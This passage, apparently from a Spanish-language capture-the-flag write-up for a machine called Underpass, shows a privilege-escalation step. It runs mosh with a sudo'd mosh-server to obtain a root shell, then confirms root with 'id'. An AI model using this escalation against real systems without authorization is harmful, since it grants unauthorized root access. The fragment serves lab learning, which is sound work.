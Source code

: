 ```bash
mosh --server="sudo /usr/bin/mosh-server" 127.0.0.1
```

![alt text](../assets/images/underpass/acceso-root.png)

Al ejecutar el comando, obtuve acceso root. Verifiqué mi identidad con:

```bash
id
```

La salida confirmó que ahora era **root**. 

![alt text](../assets/images/underpass/root.png)
